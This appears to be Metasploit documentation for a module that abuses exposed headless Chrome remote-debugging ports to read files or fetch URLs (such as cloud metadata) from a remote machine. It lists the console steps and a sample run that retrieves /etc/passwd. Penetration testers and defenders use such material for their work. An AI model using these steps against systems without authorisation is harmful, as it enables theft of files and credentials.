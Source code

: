 ## Vulnerable Application

This module takes advantage of misconfigured headless chrome sessions and either retrieves a specified file off the remote file system, or makes a web request from the remote machine.

This can be useful for retrieving cloud metadata in certain scenarios.  Primarily this module targets developers.

A vulnerable Headless Chrome session can be started with the following command:

```
$ google-chrome --remote-debugging-port=9222 --headless --remote-debugging-address=0.0.0.0
```

This will start a webserver running on port 9222 for all network interfaces.

## Verification Steps

1. Start `msfconsole`
2. Execute `auxiliary/gather/chrome_debugger`
3. Execute `set RHOST $REMOTE_ADDRESS`
4. Execute `set RPORT 9222`
5. Execute either `set FILEPATH $FILE_PATH_ON_REMOTE` or `set URL $URL_FROM_REMOTE`
6. Execute `run`

## Options

### FILEPATH

The file path on the remote you wish to retrieve.

### URL

A URL you wish to fetch the contents of from the remote machine.

### Note: One or the other must be set!

## Scenarios

```
[*] Attempting Connection to ws://192.168.20.168:9222/devtools/page/CF551031373306B35F961C6C0968DAEC
[*] Opened connection
[*] Attempting to load url file:///etc/passwd
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Retrieved resource
[*] Auxiliary module execution completed
```
